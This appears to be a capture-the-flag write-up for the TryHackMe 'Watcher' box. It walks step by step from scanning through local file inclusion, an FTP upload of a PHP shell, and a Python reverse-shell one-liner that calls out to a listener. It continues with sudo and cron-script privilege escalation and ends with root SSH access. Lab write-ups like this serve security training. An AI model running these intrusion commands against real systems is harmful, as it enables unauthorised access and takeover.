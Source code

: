 ```yaml
---
title: "[THM] Watcher"
date: 2023-05-01T17:27:49+05:30
description: "THM watcher box solution"
draft: false
hideToc: false
enableToc: true
enableTocContent: false
tocFolding: false
tocPosition: inner
tocLevels: ["h2", "h3", "h4"]
tags:
- python
- shell
series:
- tryhackme
categories:
- writeup
- boxes
image:
---
```


### Nmap scan:
```
# Nmap 7.80 scan initiated Wed Apr 26 23:09:33 2023 as: nmap -sV -sC -oA nmap/nmap 10.10.54.168
Nmap scan report for 10.10.54.168
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)
|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)
|_  256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Jekyll v4.1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corkplacemats
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 26 23:09:58 2023 -- 1 IP address (1 host up) scanned in 24.59 seconds
```

### GOBuster
Do gobuster for files and check robots.txt for the files.
```
gobuster dir -u http://10.10.54.168 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt
```

### FTP
Local file inclusion to get the ftp user `ftpuser:******`:
```
http://10.10.54.168/post.php?post=secret_file_do_not_read.txt
```
now that you get the ftp user's creds use those to login and get `flag_2.txt`
After that see that you can write to `files` directory and upload `shell.php` file so that you can setup revershell.

```
http://10.10.61.151/post.php?post=/home/ftpuser/ftp/files/shell.php
```

`cd home && ls` found users:
- ftpuser
- mat
- toby
- will

```
python3 -c 'import pty; pty.spawn("/bin/bash");'
```

```
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
cp -r /home/mat/ /tmp/mat/
```


```
find / -name "flag_3.txt"
```

Test for crontabs
```
www-data@watcher:/$ crontab -l
no crontab for www-data
```

### cat /etc/passwd

```
www-data@watcher:/home/mat/scripts$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
will:x:1000:1000:will:/home/will:/bin/bash
ftp:x:111:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
ftpuser:x:1001:1001:,,,:/home/ftpuser:/usr/sbin/nologin
mat:x:1002:1002:,#,,:/home/mat:/bin/bash
toby:x:1003:1003:,,,:/home/toby:/bin/bash
```


```
www-data@watcher:/home/mat$ cat note.txt
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
```

```
www-data@watcher:/home/toby$ cat note.txt
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```

```
www-data@watcher:/home/toby/jobs$ cat cow.sh
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
```

```
www-data@watcher:/home/mat$ sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```


Use FTP on `/home/mat` and put `cow.jpg` to the ftp server this copies the files from mat to ftp user.

Also we have execute permissions on `/home/toby/jobs/cow.sh`

```
-rwxr-xr-x 1 toby toby   46 Dec  3  2020 cow.sh
```
Set the following reverse shell to escalate as mat using reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0", 4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

now as mat can edit the `cmd.py` file we can add a shell in the file to run bash as `will`

```
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py
```

finally we can read the `/opt/backups/key.b64` to get the ssh key for the root user.

```
chmod 700 ~/.ssh/watcher.pub 
ssh -i ~/.ssh/watcher.pub root@ip
```

